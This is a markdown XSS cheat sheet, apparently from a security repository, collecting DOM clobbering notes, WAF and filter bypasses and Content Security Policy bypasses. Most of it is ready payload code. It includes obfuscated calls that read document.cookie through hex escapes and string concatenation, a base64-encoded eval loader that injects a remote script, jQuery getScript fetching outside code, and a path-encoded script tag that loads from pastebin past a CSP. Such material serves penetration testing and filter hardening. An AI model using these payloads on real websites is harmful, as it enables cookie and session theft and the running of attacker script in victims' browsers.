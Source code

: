 # XSS

## Awesome Cheat Sheets

- [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Awesome Tools

- [XSS'OR - Hack with Javascript](http://xssor.io/#ende) - swisskey for payload editing

## Summary

- [DOM Based XSS](#dom-based-xss)
    - [DOM Clobbering](#dom-clobbering)
- [Bypass](#bypass)
    - [Filter](#filter)
        - [Bypass using JS-Alpha](#bypass-using-js-alpha)
        - [Bypass using JS global variables](#bypass-using-js-global-variables)
        - [Bypass using JSFuck](#bypass-using-jsfuck)
        - [Bypass using a little known JS comment style](#bypass-using-a-little-known-js-comment-style)
    - [CSP](#csp)
        - [Bypass using encode '/' by @SecurityMB](#bypass-using-encode--by-securitymb)
        - [Bypass using JSONP](#bypass-using-jsonp)

## DOM Based XSS

Useful references:
- [Introduction to the DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction),
- [DOM Tree](https://developer.mozilla.org/en-US/docs/Web/API/Document_object_model/Using_the_W3C_DOM_Level_1_Core),
- [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window).

### DOM Clobbering

DOM Clobbering allows defining certain variables in the window’s context. For example, an HTML element 
```html
<p id="CONFIG"></p>
```
 creates a reference to itself under a `window.CONFIG` variable if and only if there were no other variables declared 
 with the same name.

References:

- [Clobbering the clobbered — Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)

## Bypass

### Filter

---

#### Bypass using JS-Alpha

[JS-Alpha](https://github.com/terjanq/JS-Alpha) converts any javascript code into a code that only consists of 
 `/[a-z().]/` characters. Example:

```
with(escape())with(eval.bind)eval(unescape(match().concat(strike().big().link().length).concat(escape(escape.name.length).concat(escape(...call.name))).concat(escape(escape(link())).length).concat(link().blink().link().length).concat(link().link().strike().length).concat(name.link().length).concat(big().big().length).concat(link().length).concat(link().length).concat(strike().big().length).concat(fixed().big().length).join(unescape(...escape(this)))))
```

The generated code should work on all platforms. It uses only standardized functions.

#### Bypass using JS global variables

Global variable example:

```js
window["document"]["cookie"]
```

Call `alert` from `window` example:

```js
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);
```

Techniques to bypass WAF rules:

```js
// Concatenation sequences
self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);

// Hex escape sequences
// alert(document.cookie)
self["\x61\x6c\x65\x72\x74"](
    self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x63\x6f\x6f\x6b\x69\x65"]
);

// Eval and Base64 encoded strings
self["\x65\x76\x61\x6c"](
  self["\x61\x74\x6f\x62"](
    "dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
    c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
    HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
    QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
    oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
    aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
    y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
    5kQ2hpbGQoc2NyaXB0KTs="
  )
);

// jQuery
self["$"]["globalEval"]("alert(1)");
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
// getScript loads a JavaScript file from the server using a GET HTTP request, then execute it.
self["$"]["getScript"]("https://example.com/my.js");

// Iteration and Object.keys
Object.keys(self)[5]; // "alert"
self[Object.keys(self)[5]]("foo"); // alert("foo")
```

References:

- [Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/amp/?__twitter_impression=true)

#### Bypass using JSFuck

[JSFuck](http://www.jsfuck.com/) is an esoteric and educational programming style based on the atomic parts of JS.
 It uses only six different characters to write and execute code. But the payload is very long. You can reduce the 
 payload using the methods described in the article [Bypass Uppercase filters like a PRO (XSS Advanced Methods)](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce).

#### Bypass using a little known JS comment style

A little known JS comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment)
 and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment)
 in ECMA specification. The following is valid JS comment syntax:

```js
-->valid_comment_style
```

References:

- [HITCON CTF 2019 - Bounty Pl33z Task](https://github.com/orangetw/My-CTF-Web-Challenges#bounty-pl33z)
- [HITCON CTF 2019 - Bounty Pl33z Writeup by balsn](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z)
- [Challenge in Cure53 XSS wiki (the idea for the Bounty Pl33z)](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8)

### CSP

---

#### Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers
 seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, example:

```html
<meta http-equiv=Content-Security-Policy content="script-src pastebin.com/XYZ/">
<!-- this will execute -->
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

#### Bypass using JSONP

[JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.
